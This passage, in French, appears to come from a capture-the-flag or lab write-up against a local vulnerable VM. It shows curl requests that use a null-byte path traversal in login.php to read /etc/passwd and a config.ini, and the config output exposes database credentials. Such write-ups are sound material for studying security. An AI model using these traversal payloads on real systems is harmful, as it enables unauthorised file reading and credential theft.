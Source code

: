Exemple avec le fichier /etc/passwd qui contient la liste des utilisateurs du système.

On y retrouve notamment les cinq membres du staff pro-widget-certified-widget John, Linda, Fred, Molly et Toby.

```console
root@blinils:~# curl http://192.168.56.101/actions/login.php?action=../../../../../../../../etc/passwd%00
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
rpm:x:37:37::/var/lib/rpm:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
avahi:x:70:70:Avahi daemon:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
distcache:x:94:94:Distcache:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
pcap:x:77:77::/var/arpwatch:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
dovecot:x:97:97:dovecot:/usr/libexec/dovecot:/sbin/nologin
john:x:500:500::/home/john:/bin/bash
linda:x:501:501::/home/linda:/bin/bash
fred:x:502:502::/home/fred:/bin/bash
molly:x:503:503::/home/molly:/bin/bash
toby:x:504:504::/home/toby:/bin/bash
```

Ou encore le fichier config.ini obtenu précédemment et ce, malgré la mise en place du .htpasswd.

```console
root@blinils:~# curl http://192.168.56.101/actions/login.php?action=../../conf/config.ini%00
;
; This is the configuration file
;
database_host	=	localhost
database_pass	=	45kkald?8laLKD
database_user	=	cms_user
database_db	=	cms
```
